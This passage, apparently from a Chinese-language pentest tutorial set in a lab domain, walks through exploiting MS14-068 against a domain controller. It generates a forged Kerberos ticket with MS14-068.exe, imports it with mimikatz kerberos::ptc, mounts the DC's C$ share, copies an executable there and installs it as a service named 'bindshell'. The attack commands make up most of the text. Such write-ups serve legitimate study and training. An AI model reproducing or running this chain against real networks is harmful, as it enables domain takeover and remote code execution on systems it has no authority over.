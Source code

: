 ```
#利用漏洞生成票据
shell MS14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7yrqtTWM3BvqmulRtzlLrAbic76qN9mp0NiaAucqJ5Y2ibiapCuqT63a6bA/640?wx_fmt=png&from=appmsg "")  
  
  
然后ls一下发现多出了票据文件  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7stpe7QDagRFb3sa2JgXBHaW3dmCGgabBl8Q5dEuMEKGfL9miac9bmYg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU714ib2x6OuyxhjS2JicLc3o1bEbCd8qRSibyiboapdmiayrjLQU0eofX4wqQ/640?wx_fmt=png&from=appmsg "")  
  
  
在没有导入票据之前我们dir是不行的。  
  
```
shell klist #查看票据
shell klist purge  #清除票据连接
```  
  
为了真实有效，我们先删除之前的票据  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7fj1Cbny4JQy59uNIqmlCNn4jgCVhjVA2iabK9cY0miaic7oibicMG0S4HHQ/640?wx_fmt=png&from=appmsg "")  
  
  
然后，我们使用mimikatz内存导入票据。  
  
  
mimikatz kerberos::ptc TGT_webadmin@god.org.ccache  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7963LohNuPep9CGpYljOdEpfJ8QYJjG1ibwpM01wDyVPC38L2cDCbSgg/640?wx_fmt=png&from=appmsg "")  
  
  
接着我们klist一下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7gqibLUBUbcknOVQRd1AqWQO4qqfKg53eFibA1KRCcJRxpwicw0dBhjshw/640?wx_fmt=png&from=appmsg "")  
  
  
就是我们刚刚导入的票据！  
  
  
然后就能正常dir等操作了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7qn6qDiacgteC8ANdVnM4Ix9IJCnQ19Kuc6LicThGh2SFE7pFcMwp1qVg/640?wx_fmt=png&from=appmsg "")  
  
```
shell net use \\OWA2010CN-God.god.org\C$
copy 3232.exe \\OWA2010CN-God.god.org\C$
sc \\OWA2010CN-God.god.org create bindshell binpath= "c:\3232.exe"
sc \\OWA2010CN-God.god.org start bindshell
注意：成功不成功看DC域控漏洞补丁打没打
```  
  